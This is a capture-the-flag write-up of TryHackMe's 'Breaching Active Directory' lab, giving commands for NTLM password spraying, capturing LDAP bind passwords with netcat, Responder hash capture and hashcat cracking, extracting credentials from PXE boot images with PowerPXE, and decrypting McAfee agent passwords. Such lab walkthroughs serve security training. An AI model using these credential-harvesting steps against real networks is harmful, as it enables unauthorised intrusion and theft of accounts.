# Breaching_Active_Directory


This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.

In this write-up, I'll only be covering sections people might have difficulty with.
# Task 1: Introduction to AD Breaches

Here is how you can setup your machine if you are making use of **OpenVPN** on Kali Linux

First up go to the [access page](https://tryhackme.com/r/access)

Next is to download the OpenVPN configuration file for this room.

Select Networks > "breachingad" 



Download configuration file



Connect using configuration file:

```shell
sudo openvpn <config_file>
```



Once you see "Initialization Sequence Completed", it means you have connected successfully.

Next is to configure DNS.

Search for "Advanced Network Configuration"


Double click on the network connection you're using


Go to IPv4 settings and set:

Additional DNS servers - `THMDCIP`

The IP for THMDC can be found here:



Set Additional search domains - `1.1.1.1` as instructed in the room



Next up open your terminal and edit the `/etc/hosts` file using any text editor of your choice. Then enter this entry  `THMDCIP   za.tryhackme.com`



Go to your terminal and run the command:

```shell
sudo systemctl restart NetworkManager
```

Test if everything is working fine by running:

```shell
nslookup thmdc.za.tryhackme.com
```

If you get this result, then everything is working fine



You can also use ping to see if the domain resolves to the IP address:

```shell
ping thmdc.za.tryhackme.com
```



# Task 3: NTLM Authenticated Services

Download the Files attached to this task.

Unzip the file:

```shell
unzip passwordsprayer-1647011410194.zip
```



We have 2 files, one python script which is the script we will use for brute forcing a file containing potential usernames.



Accessing the site http://ntlmauth.za.tryhackme.com requests a username and password. We already have a password `Changeme123` given in the task but no valid username. We can perform a password spraying attack to get a valid username.

Run the attack using the syntax:

```shell
python script.py -u username_file -f <fqdn> -p <password> -a <target_url>
```

```shell
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com
```



# Task 4: LDAP Bind Credentials

Access the site http://printer.za.tryhackme.com/settings and you will be met with a printer settings webpage.



Objective is to retrieve credentials.

First up is to start a netcat listener on port `389` which is the default port for LDAP

```shell
nc -lvnp 389
```



Next is to change the Server IP on the webpage to our machine's VPN IP.

To get this IP, run the command `ifconfig` and look for `breachad`



We now have our VPN IP. Now use this IP to replace with the server IP and click on "Test Settings" button on the webpage. We should then get a response on our terminal. You can try multiple times before you get it and remember to start the network and add time :)



As it's stated in the task, to get credentials we'll need to use another tool to harvest the credentials.

Follow the steps in the task to setup slapd



After the setup, run the following command to start listening for any LDAP connection:

```shell
sudo tcpdump -SX -i breachad tcp port 389
```



Scroll down and you should find a plain text password 



# Task 5: Authentication Relays

Start up responder on the `breachad` interface.

If you get any error like this 



indicating that a certain port is in use, then you can check and stop whatever service using that port.

Running `netstat -tuln`



i can see that the port 389 is actively being used as indicated by responder.

Running `sudo lsof -i :389`, i am able to see the service using the port



slapd is the service running. I can stop the service using `systemctl`

```shell
systemctl stop slapd
```



And now i can run responder.

After waiting for a few minutes `30 max`, We are able to obtain the hash



Copy and paste the hash inside a text file



Crack it using hashcat and the provided wordlist attached to the task.

```shell
hashcat -m 5600 <hash_file> wordlist.txt
```



# Task 6: Microsoft Deployment Toolkit

Obtain the BCD filename from the website http://pxeboot.za.tryhackme.com/ 



`x64{CB2C7CFA-E514-40FC-B53D-6FAB15079751}.bcd`

Next up ssh into the `THMJUMP1` machine

```shell
ssh thm@THMJMP1.za.tryhackme.com
```

password `Password1@`



create a directory with your username

```cmd
mkdir <username>
```

then copy the powerpxe repo to this new directory

```cmd
copy C:\powerpxe <username>
```

Move into the new directory

```cmd
cd <username>
```



**Sorry, i meant to name the directory "thmjmp1" but it's fine. You can use whatever name you want**

Use TFTP to download the BCD file you obtained earlier

```cmd
tftp -i <thmdt IP> GET "\Tmp\x64{CB2C7CFA-E514-40FC-B53D-6FAB15079751}.bcd" conf.d
```


Next is to use the PowerPXE powershell script to read the file.
Run the following powershell commands

```powershell
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.d"
Get-WimFile -bcdFile $BCDFile
```





We now have the boot image location on the machine.

Next is to use tftp to download the boot image

```powershell
tftp -i 10.200.54.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```



Using PowerPXE, we can extract the credentials from the boot image:

```powershell
Get-FindCredentials -WimFIle pxeboot.wim
```



# Task 7: Configuration Files

SSH into thmjmp1 and navigate to the location of the McAfee database file `ma.db`


Copy the `ma.db` file to your machine using `scp`

On your own machine, run the following:

```shell
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```



Next we use `sqlitebrowser` to view the database

```shell
sqlitebrowser ma.db
```

Select the "Browser Data" option



Select the "AGENT_REPOSITORIES" table



Scroll to the "DOMAIN", "AUTH_USER" and "AUTH_PASSWD" fields and take note of their values



The AUTH_PASSWD is encrypted but it can be decrypted using this python script - https://github.com/funoverip/mcafee-sitelist-pwd-decryption/blob/master/mcafee_sitelist_pwd_decrypt.py

First install dependency:

```python
pip3 install pycryptodomex
```



Download and run the script against he encrypted key

```shell
chmod +x mcafee_sitelist_pwd_decrypt.py
./mcafee_sitelist_pwd_decrypt.py <key>
```



If you're having any other issues then you can contact me on X/Twitter @deusx_45

Thanks for Reading


